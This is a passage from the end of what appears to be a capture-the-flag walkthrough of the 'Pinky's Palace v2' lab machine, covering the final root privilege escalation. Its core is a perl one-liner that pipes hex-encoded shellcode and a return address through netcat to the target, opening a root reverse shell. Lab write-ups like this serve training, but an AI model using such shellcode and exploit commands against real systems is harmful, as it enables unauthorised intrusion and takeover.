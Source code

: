 The generated payload is 119 bytes, and fits in nicely onto the given 120 bytes of space with one byte to spare. :smirk:

## Getting to the `root` of the matter

The stage is now set for the real privilege escalation. I run the following command on my machine.

```
# perl -e 'print "\x90" . "\x48\x31\xc9\x48\x81\xe9\xf6\xff\xff\xff\x48\x8d\x05\xef\xff\xff\xff\x48\xbb\xd7\x5f\x69\x30\xa9\x2d\x85\x1e\x48\x31\x58\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4\xbd\x76\x31\xa9\xc3\x2f\xda\x74\xd6\x01\x66\x35\xe1\xba\xcd\xa7\xd5\x5f\x78\x6c\x69\x85\x8f\x9e\x86\x17\xe0\xd6\xc3\x3d\xdf\x74\xfd\x07\x66\x35\xc3\x2e\xdb\x56\x28\x91\x03\x11\xf1\x22\x80\x6b\x21\x35\x52\x68\x30\x65\x3e\x31\xb5\x36\x07\x1f\xda\x45\x85\x4d\x9f\xd6\x8e\x62\xfe\x65\x0c\xf8\xd8\x5a\x69\x30\xa9\x2d\x85\x1e" . "\xfb\x0c\x40\x00\x00\x00"' | nc pinkydb 31337
```

A `root` shell appears on my `netcat` listener.

![screenshot-28](/assets/images/posts/pinkys-palace-v2-walkthrough/screenshot-28.png)

After spawning a better looking shell with a bunch of keystrokes, the flag is basically there for the taking.

![screenshot-29](/assets/images/posts/pinkys-palace-v2-walkthrough/screenshot-29.png)

:dancer:

## Afterthought

"Pinky's Palace" is a misnomer—it should be "Pinky's Dungeon". :sweat_smile:
